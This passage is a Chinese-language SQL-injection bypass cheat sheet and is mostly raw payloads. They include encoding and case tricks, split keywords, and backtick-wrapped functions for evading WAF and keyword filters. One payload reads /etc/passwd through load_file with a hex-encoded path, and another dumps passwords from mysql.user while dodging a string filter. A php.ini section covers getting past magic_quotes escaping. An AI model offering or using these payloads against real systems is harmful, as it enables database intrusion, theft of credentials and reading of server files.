 利用 union/*中文字符*/select，还要保证这种中文字符不能构造一个汉字。

### 进制换算

```
' or 'a' = n'a # unicode
' %u0061nd 1 = 1 # unicode
' or 'a' = b'1100001 # binary
' or 'a' = x'61 # hexadecimal
' and substr(data,1,1) = 0x61# 0x6162
' and substr(data,1,1) = unhex(61)# unhex(6162)
' and substr(data,1,1) = char(97)# char(97,98)
' and substr(data,1,1) = lower(conv(10,10,36))# 'a'
' and substr(data,1,1) = lower(conv(11,10,36))# 'b'
' and substr(data,1,1) = lower(conv(36,10,36))# 'z'
```




### 移除关键词

```
绕过：1+UNunionION+SEselectLECT+1,2,3 --
绕过：1+uni%0bon+se%0blect+1,2,3 --
```

### 敏感函数

```
version()%0b


将version()换成@@version


`函数名`() 等价于 函数名()
SQL> id=1 and(select `load_file`(0x2f6574632f706173737764) is not null)

SQL> id=1614444.0Union(select-1.0,password,3,4,5,6,7,`user`FROM(`mysql`.user))
这里关键是反单引号的使用,成功逃过了敏感字符串“mysql.user”。
id=161444.0有两个作用,第一让原来的查询返回空，第二这是一个小数，小数后可以直接接关键字，而不用空格。
```

### 语句变形 --mysql黑魔法

```
SQL> select{x table_name}from{x information_schema.tables}
```

### 大小写

SQL> 1+UnIoN/**/SeLecT/**/1,2,3 --

## 中间层绕过

### php.ini设置

safe_mode = On <- 比较用户权限，限制特定函数
display_errors = Off

magic_quotes_gpc = On <- 转义特殊符号
and+column_name+like+%2527%25pass%25%2527 双重转义

magic_quotes_gpc = Off
username=char(97,108,112)%23 <- 不包含引号 username=0x616C7069 select 'a' -> select version() <- 不包含引号